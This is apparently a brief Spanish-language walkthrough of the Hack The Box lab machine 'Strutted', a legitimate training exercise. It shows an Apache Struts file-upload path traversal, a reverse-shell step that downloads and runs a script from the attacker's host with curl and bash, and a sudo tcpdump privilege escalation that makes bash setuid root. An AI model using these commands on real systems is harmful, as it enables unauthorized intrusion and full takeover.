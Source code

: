 ```yaml
---
title: "Hack The Box - Strutted"
description: "Walkthrough con enumeración, explotación y privesc."
pubDate: "2025-08-20"   # YYYY-MM-DD (en comillas)
tags: ["htb", "linux", "walkthrough"]
draft: false
---
```

**IP:** 10.10.11.59

## 🌐 Stack Tecnológico
- Apache Struts
- Tomcat
- Java (OpenJDK)
- Docker

## 🦈 Credenciales encontradas
- admin : 
- james :  (SSH)

## 🧪Vector de Explotación
- Modificación de campo `top.uploadFileName`:
  ```
  ../../test.asp
  ```

## 🔁 Reverse Shell
```bash
curl 10.10.15.53 -o /tmp/reverse
bash /tmp/reverse
```

## 🧭 Escalada de Privilegios
```bash
COMMAND='chmod 4777 /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
bash -p
```
## 👑 Root Access
```bash
  whoami
# root
  ```